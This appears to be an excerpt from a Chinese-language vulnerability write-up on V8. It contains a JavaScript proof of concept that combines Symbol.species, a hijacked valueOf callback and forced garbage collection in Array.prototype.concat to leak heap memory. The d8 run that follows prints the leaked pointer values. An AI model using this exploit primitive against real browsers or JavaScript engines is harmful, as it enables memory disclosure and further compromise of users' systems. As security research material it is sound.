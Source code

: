 ```js
function leak_0() {
// 根据上述思路实现内存泄漏
    // Symbol.species 返回 vulnA
    class vulnArray extends Float64Array {}
    var vulnA = new vulnArray(0x1337);
    vulnA.__defineSetter__("length", function() {});
    class myArray extends Array {
        static get [Symbol.species]() {
            return function() {
                return vulnA;
            }
        };
    }

    var corruptA = new myArray(0x50);
    corruptA.fill(4.3);
    delete corruptA[0];         // 创造空洞，这里进入 JSReceiver::GetElement 的慢过程，
                                // 才能触发 valueOf() 中的代码执行
    Array.prototype[0] = {
        valueOf: function() {
            corruptA.length = 1;// length 设置为 1，
            gc();               // 触发 gc
            print("[CALLBACK]");
            delete Array.prototype[0]; // 防止影响后续利用
            return 1.7;
        }
    };

    // 触发漏洞
    var res = corruptA.concat();

    // 调试 && 漏洞验证
    for (var i = 0; i < 0x10; i++) {
        print(i + "\t" + res[i]);
    }
}

leak_0();
```

可以看到输出了一些可疑的数据：

```sh
❯ ./executable_d8/d8 --max-heap-size 1024 --expose-gc --allow-natives-syntax ./poc.js
[CALLBACK]                          # 证明 callback 被触发并且只被触发了一次，符和预期
0       1.7                         # 这里是 valueOf 的返回值 1.7 而不是原本的 4.3
1       3.3954324972934e-310        # 这些是什么？
2       2.69333861189973e-310
3       2.69333861189973e-310
4       2.2468527337194e-311
5       2.69333861295466e-310
6       8.4880155434e-314
7       2.693338611895e-310
8       2.6933386127274e-310
9       4.15911175029e-312
10      3.39543249543303e-310
11      3.39543249543293e-310
12      2.69333861189973e-310
13      2.69333861189973e-310
14      2.24685272251e-311
15      2.2468527326206e-311
```
